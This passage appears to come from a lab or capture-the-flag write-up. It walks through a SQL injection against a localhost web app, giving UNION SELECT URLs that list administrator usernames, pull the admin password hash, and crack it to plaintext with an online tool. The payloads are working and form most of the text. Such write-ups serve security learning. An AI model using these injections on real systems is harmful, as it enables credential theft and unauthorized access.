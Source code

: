 # (g) Get username and password for Administrator/s

We have to assume that there may be a few Administrators of the application so we will be using again **LIMIT** and **OFFSET** for listing one column at a time.

From the previous steps we know that the **users** table have all the user's data.
We also know the structure of that table:

- id
- username
- password
- isAdmin
- firstname
- lastname
- avatar
- description

So we need to query the **users** table asking for the **_username_** where isAdmin is **true**, like this:
```shell
SELECT username FROM users WHERE isAdmin=1 LIMIT 1 OFFSET 0
```

Injecting the query in the browser should look like this:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT username FROM users WHERE isAdmin=1 LIMIT 1 OFFSET 0),3,4,5,6,7,8,9/slug-name-post'
```


And we keep **increasing the OFFSET** value until we get a blank response.

--

Let say we get **only one** administrator user, with username **admin**. Then we need to get the password:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT password FROM users WHERE username='admin' LIMIT 1 OFFSET 0),3,4,5,6,7,8,9/slug-name-post'
```

And we will get some string like this:
```javascript
9a618248b64db62d15b300a07b00580b
```

This looks like a MD5 hash, so we could use the same online cracking tool we used some steps before to get a plain text password: [https://crackstation.net/](https://crackstation.net/)


The result is: **supersecret**, which is the admin user password.
